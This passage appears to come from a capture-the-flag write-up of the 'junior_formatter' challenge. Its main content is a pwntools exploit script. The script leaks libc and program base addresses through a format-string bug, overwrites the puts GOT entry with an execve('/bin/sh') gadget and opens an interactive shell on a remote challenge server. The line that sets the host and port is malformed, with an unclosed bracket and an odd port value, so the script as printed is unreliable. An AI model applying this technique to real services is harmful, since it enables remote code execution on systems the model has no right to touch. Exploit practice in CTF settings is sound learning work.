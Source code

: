 Firstly, we must obtain the Executable and Linkable Format (ELF) base address to calculate the offset of the Global Offset Table (GOT), and the libc's base address to calculate the fixed offset of execve("/bin/sh", r10, rdx).

In this case, I overwrote the Global Offset Table entry of puts to execve("/bin/sh", r10, rdx) to achieve arbitrary code execution.

#### POC

```python
#!/usr/bin/python
from pwn import *
exe = './junior_formatter'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc Connection: 52.59.124.14 503**1".split(" ")[1:
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
libc = ELF('./libc6_2.35-0ubuntu3.6_amd64.so', checksec = 0)

p = b'%25$p %27$p'
sla(b'>> ', p)
rl()
leaked = rud(b'\n').split(b' ')
libc.address = int16(leaked[0]) - 0x276ca - 0x26c6
li(hex(libc.address))
elf.address = int16(leaked[1]) - 0x000012bb
li(hex(elf.address))
sla(b'(r)?\n', b'r')
p = fmtstr_payload(10, {elf.got.puts: (libc.address + 0xebc85)}, write_size='short') # execve("/bin/sh", r10, rdx)
assert len(p) < 0x64
sla(b'>> ', p)
com()
```
